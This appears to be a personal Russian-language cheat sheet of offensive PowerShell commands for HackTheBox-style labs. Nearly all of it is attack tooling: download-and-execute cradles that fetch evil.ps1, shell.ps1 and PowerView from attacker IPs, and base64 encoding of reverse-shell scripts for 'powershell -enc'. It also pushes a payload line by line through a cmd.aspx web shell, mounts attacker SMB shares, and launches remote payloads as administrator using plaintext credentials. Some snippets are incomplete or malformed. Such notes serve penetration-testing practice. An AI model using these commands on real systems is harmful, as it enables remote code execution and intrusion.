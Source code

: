 # POWER

https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/

Запустить повер виев

. .\PowerView.ps1

загрузиь повервью в память

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerView.ps1')

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

"powershell "IEX(New-Object Net.WebClient).downloadString(''http://10.10.14.9/shell.ps1'')""   ---Бывает и так!!!!!

Поскольку у нас нет оболочки для JDgodd, мы можем использовать PowerShell.
 System.Management.Automation.PSCredential для хранения учетных данных в нашей текущей оболочке.

 $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# Кодирование скриптов POwerShell
--Кодирование в base64

  $Shell=Get-Content -raw ./Invoke-PowerShellIcmp.ps1
  
  $bytes2 = [System.Text.Encoding]::Unicode.GetBytes($Shell)

  $Encoded2 | out-file icmp.ps1.b64

--Декодирование обратно

  $Decode =[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Encoded2))
  
# Загрузка скрипат построчно

!/bin/bash
export IFS=$'\n'
for line in $(cat tmp.ps1.b64);
do
max="echo ${line} >> C:\Temp\max_shell.ps1"
curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$max"
done


-------------------------------------
cat rev.ps1 |iconv -t UTF-16LE | base64 -w 0 (вывод)

powershell -enc (вывод)

# Восстаовление корзины

Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

# Загрузка скрипта и выполнение

    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

    echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1') | powershell -noprofile 

    iwr -uri http://10.10.14.9/test -outfile test

    IEX(IWR('10.10.10.10/script.ps1'))

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

    -----------

echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1')" | iconv -t UTF-16LE| base64 -w0


powershell -encodedcommand ACkACgA=

    
# Доступ к ресурсу SMB

impacket-smbserver share .


Get-Content //10.10.14.4/file

net use z: //10.10.10.14/shares 
-----
$pass = "max" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PsCredential('max, $pass')

New-PSDrive -name max -root \\10.10.14.14\share -Credential $cred -PSProvider "filesystem"

# PowerShellMafia

https://github.com/PowerShellMafia/PowerSploit.git

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

PowerUP

Invoke-AllChecks

# Запуск процесса от имени другого пользователя (администратора)

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator', $passwd)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
